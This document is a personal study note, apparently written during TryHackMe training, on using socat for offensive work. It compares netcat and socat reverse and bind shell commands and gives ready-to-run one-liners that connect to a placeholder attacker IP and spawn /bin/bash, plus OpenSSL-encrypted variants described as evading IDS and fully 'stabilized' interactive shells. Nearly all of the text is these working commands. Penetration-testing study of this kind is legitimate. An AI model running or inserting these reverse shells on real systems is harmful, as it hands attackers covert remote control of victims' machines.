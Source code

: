 # Using “socat”

Socat: An anything-to-anything connector!

## “socat” vs. “netcat”

Equivalent commands between socat and [netcat](netcat.md):

| Role                     | netcat                                   | socat                                                  |
|:------------------------ |:---------------------------------------- |:------------------------------------------------------ |
| Reverse shell (attacker) | `nc -lnp $LISTENER_PORT`                    | `socat TCP-LISTEN:$LISTENER_PORT -`                       |
| Reverse shell (target)   | `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash` | `socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li"` |
| Bind shell (attacker)    | `nc $TARGET_IP $LISTENER_PORT`              | `socat TCP:$TARGET_IP:$LISTENER_PORT`                      |
| Bind shell (target)      | `nc -lnp $LISTENER_PORT -e /bin/bash`        | `socat TCP-LISTEN:$LISTENER_PORT EXEC:"/bin/bash -li"`      |

Socat gets us an interactive login shell right out the gate, though we’re still vulnerable to Ctrl+C. Note that when binding to PowerShell, use `powershell.exe,pipes` in order to force PowerShell to use UNIX-style STDIN/STDOUT.

### Socat Encrypted Shells

Socat can also make encrypted connections, which foil after-the-fact network analysis and may circumvent IDS entirely.

```bash
# Generate a self-signed certificate.
#
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

# Create a PEM file combining the certificate and key.
#
cat shell.key shell.crt > shell.pem

# Start a listener.
#
socat OPENSSL-LISTEN:$LISTENER_PORT,cert=shell.pem,verify=0 -

# Start the reverse shell on the target.
#
socat OPENSSL:$ATTACKER_IP:$LISTENER_PORT,verify=0 EXEC:"/bin/bash -li"
```

The `verify=0` directive turns off certificate validation, so this isn’t a “secure” connection in the sense that it’s been *authenticated*, but it is secure in the sense that it’s *encrypted*.

## Shell “Stabilization”

Shell “stabilization” refers to the process of making a remote shell behave like a normal local shell — so, allowing interactive programs to work properly, ensuring that input is not echoed inappropriately, etc.

We can use socat to create an auto-stabilized reverse shell on UNIX-like systems.

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo. Basically
# the `stty raw -echo`.
#
socat TCP-LISTEN:$LISTENER_PORT FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to “normalize” the
#              terminal’s environment
#
socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

Same thing, but over an encrypted connection:

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo. Basically
# the `stty raw -echo`.
#
socat OPENSSL-LISTEN:$LISTENER_PORT,cert=$PEM_FILE,verify=0 FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to “normalize” the
#              terminal’s environment
#
socat OPENSSL:$ATTACKER_IP:$LISTENER_PORT,verify=0 EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

NOTE that the reverse shell will not pick up on your terminal size, so you’ll need to manually specify it using `stty rows` and `stty cols`.

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> October 28, 2021
